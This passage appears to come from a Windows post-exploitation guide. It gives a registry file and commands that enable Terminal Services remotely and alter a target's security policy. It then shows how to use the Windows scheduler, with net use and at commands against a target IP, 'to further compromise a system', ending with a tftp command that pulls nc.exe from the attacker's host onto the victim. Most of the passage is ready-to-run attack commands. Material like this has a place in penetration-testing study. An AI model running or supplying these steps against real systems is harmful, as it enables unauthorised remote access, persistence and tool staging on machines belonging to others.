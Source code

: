  1. Create another file named `enable_ts.reg` containing the contents below.



    <pre>

     Windows Registry Editor Version 5.00

     [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]

     "fDenyTSConnections"=dword:00000000

     "TSEnabled"=dword:00000001

     "TSUserEnabled"=dword:00000000

    </pre>



 1. On the remote system, execute the following commands:


```
c:\> sc config termservice start= auto sc config termservice start= auto

c:\> regedit /s enable_ts.reg

c:\> copy c:\windows\security\database\secedit.sdb c:\windows\security\database\new.secedit.sdb

c:\> copy c:\windows\security\database\secedit.sdb c:\windows\security\database\orig.secedit.sdb

c:\> secedit /configure /db new.secedit.sdb /cfg fix_ts_policy.ini

c:\> gpupdate /Force

c:\> net start "terminal services"
```





### Scheduler

The [Windows scheduler](http://support.microsoft.com/kb/313565) can be used to further compromise a system. It usually runs at the SYSTEM account privilege level. According to Val Smith's and Colin Ames' [BlackHat 2008 presentation (page 58)](http://www.blackhat.com/presentations/bh-usa-08/Smith_Ames/BH_US_08_Smith_Ames_Meta-Post_Exploitation.pdf), you can remotely schedule tasks using the commands below.



<pre>

c:\> net use \\[TargetIP]\ipc$ password /user:username

c:\> at \\[TargetIP] 12:00 pm command

</pre>



An example you might run on the remote system might be: `at \\192.168.1.1 12:00pm tftp -I [MyIP] GET nc.exe`
